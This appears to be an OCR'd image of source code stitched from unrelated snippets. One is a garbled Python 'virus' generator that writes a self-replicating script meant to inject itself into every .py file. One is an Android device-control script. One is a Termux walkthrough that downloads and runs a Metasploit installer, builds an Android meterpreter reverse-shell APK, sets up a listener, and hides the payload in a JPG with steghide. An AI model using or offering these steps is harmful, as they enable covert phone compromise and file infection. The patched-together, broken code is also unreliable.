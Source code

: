 import os
import random
import time

def create_pungss_virus():
    # Create a new directory to store the Pungss virus
    virus_dir = "PungssVirus"
    os.mkdir(virus_dir)

    # Create a Python script that will be the Pungss virus
    virus_script = "PungssVirus.py"
    with open(os.path.join(virus_dir, virus_script), "w") as f:
        f.write("""
import os
import random
import time

def spread_pungss_virus():
    # Find all files in the current directory
    files = os.listdir()
    for file in files:
        if file.endswith(".py"):
            # Open the file and inject the Pungss virus code
            with open(file, "r") as f:
                content = f.read()
            with open(file, "w") as f:
                f.write(""" + content + """
# Pungss virus code
print("Pungss virus spreading...")
time.sleep(random.randint(1, 5))
spread_pungss_virus()
""")

# Run the Pungss virus
spread_pungss_virus()
""")

    # Add a batch file to run the Pungss virus
    batch_file = "run_pungss_virus.bat"
    with open(os.path.join(virus_dir, batch_file), "w") as f:
        f.write(f"python {virus_script}")

    print("Pungss virus created successfully.")

# Create the Pungss virus
create_pungss_virus()import android_device_control as adc

# Connect to the Android device
device = adc.ADBDevice()

# Install an app
device.install_app("app.apk")

# Launch an app
device.launch_app("com.example.app")

# Send a key event (e.g., press the back button)
device.send_key_event(adc.KEY_BACK)

# Take a screenshot
screenshot = device.take_screenshot()
screenshot.save("screenshot.png")

# Perform a touch event (e.g., tap on coordinates (100, 200))
device.touch_event(100, 200)

# Get the device's screen resolution
resolution = device.get_screen_resolution()
print(f"Screen resolution: {resolution}")

# Get the device's battery level
battery_level = device.get_battery_level()
print(f"Battery level: {battery_level}%")

# Disconnect from the device
device.disconnect()pkg update && pkg upgrade -y

pkg install wget curl openssh git -y

wget https://raw.githubusercontent.com/gushmazuko/metasploit_in_termux/master/metasploit.sh

chmod +x metasploit.sh
./metasploit.sh

msfconsole

msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -o hacked.apk

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit

pkg update && pkg upgrade -y
pkg install steghide -y

steghide embed -cf innocent.jpg -ef payload.apk -p password123

steghide extract -sf innocent.jpg -p password123